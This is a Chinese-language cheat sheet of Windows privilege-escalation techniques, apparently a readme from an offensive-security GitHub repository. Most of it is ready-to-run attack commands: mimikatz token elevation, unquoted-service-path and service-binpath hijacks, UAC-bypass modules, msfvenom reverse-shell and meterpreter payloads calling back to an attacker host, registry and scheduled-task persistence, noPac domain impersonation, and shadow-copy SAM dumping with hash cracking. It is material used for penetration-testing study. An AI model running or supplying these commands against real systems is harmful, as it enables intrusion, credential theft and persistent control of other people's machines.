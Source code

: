 ### Windows提权

1. 访问令牌

[mimikatz](https://github.com/gentilkiwi/mimikatz/releases)

```bash
privilege::debug
token::list
token::elevate /id:[PID]
token::whoami
```

```bash
token::elevate
token::elevate /domainadmin
token::run /id:[PID] /process:"C:\Users\Administrator\Desktop\PSTools\PsExec64.exe -i -s cmd.exe"
```

2. 命名管道

[NamedPipeServer.cpp](提权/NamedPipeServer.cpp)

[NamedPipeClient.cpp](提权/NamedPipeClient.cpp)

```bash
x86_64-w64-mingw32-g++ -O2 NamedPipeServer.cpp -o NamedPipeServer.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
x86_64-w64-mingw32-g++ -O2 NamedPipeClient.cpp -o NamedPipeClient.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

```bash
NamedPipeServer.exe
NamedPipeClient.exe
((Get-ChildItem \\.\pipe\).name)[-1..-5]
```

3. DLL劫持

[第五章——DLL劫持](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Readme.md#dll%E5%8A%AB%E6%8C%81)

4. 不带引号的服务路径

```bash
mkdir "C:\Program Files\Ignite Data\Vuln Service"
sc create "vulns" binpath= "C:\Program Files\Ignite Data\Vuln Service\file.exe" start= auto
icacls "C:\Program Files\Ignite Data" /grant "ADMIN\Administrator":W
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v '\"'
```

```bash
C:\Program Files\Ignite Data\Vuln Service\file.exe
C:\Program Files\Ignite Data\ + Vuln.exe

net start vulns
run post/windows/manage/migrate
```

5. $PATH拦截

```bash
echo $env:PATH
Copy-Item -Path "C:\Windows\System32\cmd.exe" -Destination "C:\Program Files\Microsoft MPI\Bin\calc.exe"

calc = cmd.exe
```

6. 更改服务配置

[AccessChk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk)

```bash
accesschk.exe /accepteula -uwcqv <username> *
or
Get-WmiObject Win32_Service | Select-Object Name, StartName, PathName

sc qc vulns
sc config vulns binpath= "C:\msf.exe"
net start vulns
```

```bash
reg query HKLM\System\CurrentControlSet\Services /s /v imagepath
```

7. UAC

```bash
exploit/windows/local/bypassuac
exploit/windows/local/bypassuac_injection
exploit/windows/local/bypassuac_fodhelper
exploit/windows/local/bypassuac_eventvwr
exploit/windows/local/bypassuac_comhijack

post/multi/recon/local_exploit_suggester
```

8. 始终以提升的权限安装

```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP地址 LPORT=8888 -f msi -o Application.msi
msiexec /quiet /qn /i C:\Users\Administrator\Desktop\test\Application.msi
```

```bash
reg add "HKLM\Software\Policies\Microsoft\Windows\Installer" /v AlwaysInstallElevated /t REG_DWORD /d 1 /f
reg add "HKCU\Software\Policies\Microsoft\Windows\Installer" /v AlwaysInstallElevated /t REG_DWORD /d 1 /f

exploit/windows/local/always_install_elevated
```

9. Autoruns

常见的Autoruns位置

+ 注册表启动项：HKCU\Software\Microsoft\Windows\CurrentVersion\Run 或 HKLM\Software\Microsoft\Windows\CurrentVersion\Run。
+ 计划任务。
+ 启动文件夹：C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup。

```bash
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
accesschk64.exe /accepteula -wvu "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"
msf.exe > vmtoolsd.exe
```

10. Windows子系统

```bash
wsl --list --verbose
./ubuntun1604.exe config --default-user root
wsl whoami
wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'
```

```bash
C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows_79rhkp1fndgsc\LocalState\rootfs\
```

11. 凭据管理器

```bash
cmdkey /list
runas /savecred /user:ADMIN\Administrator "C:\msf.exe"
runas /savecred /user:WORKGROUP\Administrator "\\IP\SHARE\evil.exe"
```

12. 索取凭据

[steal_credentials.ps1](提权/steal_credentials.ps1)

[cred_server.py](提权/cred_server.py)

13. COM DLL劫持

[第五章——COM DLL劫持](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Readme.md#com-dll%E5%8A%AB%E6%8C%81)

14. RpcSs

```bash
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\RpcSs"

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\RpcSs\Parameters" /v ServiceDll /t REG_EXPAND_SZ /d "C:\Path\To\malicious.dll" /f
sc stop RpcSs
sc start RpcSs
```

[RpcSsImpersonator](https://github.com/sailay1996/RpcSsImpersonator)

15. Juicy Potato

[Juicy Potato](https://github.com/ohpe/juicy-potato)

[Juicy Potato构建后的](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts)

[CLSID列表](https://ohpe.it/juicy-potato/CLSID/)

```bash
JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
```

16. SpoolFool

[SpoolFool](https://github.com/ly4k/SpoolFool)

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f dll > msf.dll

SpoolFool.exe -dll msf.dll
```

17. sAMAccountName欺骗

```bash
git clone https://github.com/Ridter/noPac
python3 noPac.py 域/用户名:'密码' -dc-ip IP地址 -shell --impersonate administrator -use-ldap
```

18. 计划任务

```bash
schtasks /query /fo LIST /v
schtasks /create /tn "MaliciousTask" /tr "C:\msf.exe" /sc minute /mo 5 /ru SYSTEM
```

19. 登录自动执行

常见的注册表自动运行路径

+	HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
+	HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
+	HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce
+	HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce

```bash
Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "MaliciousApp" -Value "C:\Windows\Temp\malicious.exe"
```

20. DnsAdmins

```bash
Get-ADGroupMember -Identity "DnsAdmins"
dnscmd /config /serverlevelplugindll C:\Windows\Temp\malicious.dll
sc stop dns
sc start dns
```

21. 易受攻击的驱动程序

```bash
driverquery.exe /fo table /si
```

[loldrivers.io](https://www.loldrivers.io)

[DriverQuery](https://github.com/matterpreter/OffensiveCSharp/tree/master/DriverQuery)

```bash
PS C:\Users\Swissky> DriverQuery.exe --no-msft
[+] Enumerating driver services...
[+] Checking file signatures...
Citrix USB Filter Driver
    Service Name: ctxusbm
    Path: C:\Windows\system32\DRIVERS\ctxusbm.sys
    Version: 14.11.0.138
    Creation Time (UTC): 17/05/2018 01:20:50
    Cert Issuer: CN=Symantec Class 3 SHA256 Code Signing CA, OU=Symantec Trust Network, O=Symantec Corporation, C=US
    Signer: CN="Citrix Systems, Inc.", OU=XenApp(ClientSHA256), O="Citrix Systems, Inc.", L=Fort Lauderdale, S=Florida, C=US
<SNIP>
```

22. 滥用影子副本

```bash
vssadmin create shadow /for=C:
vssadmin list shadows
mklink /d C:\ShadowCopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\
copy C:\ShadowCopy\Windows\System32\config\SAM C:\Users\Administrator\Desktop\test\SAM
copy C:\ShadowCopy\Windows\System32\config\SYSTEM C:\Users\Administrator\Desktop\test\SYSTEM
```

```bash
pwdump SYSTEM SAM > /root/sam.txt
samdump2 SYSTEM SAM -o sam.txt
john -format=NT /root/sam.txt
```

23. DiagHub

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f dll > msf.dll
```

[diaghub](https://github.com/xct/diaghub)

```bash
C:\Windows\System32\ + msf.dll
diaghub.exe C:\ProgramData msf.dll
```

24. 特权文件删除

```bash
Get-ChildItem -Path "C:\Config.Msi"
```

[malicious.ps1](提权/malicious.ps1)

malicious.ps1 > C:\Config.Msi\example.rbs

```bash
msiexec /i "C:\malicious.msi" /qn
```

### Linux提权
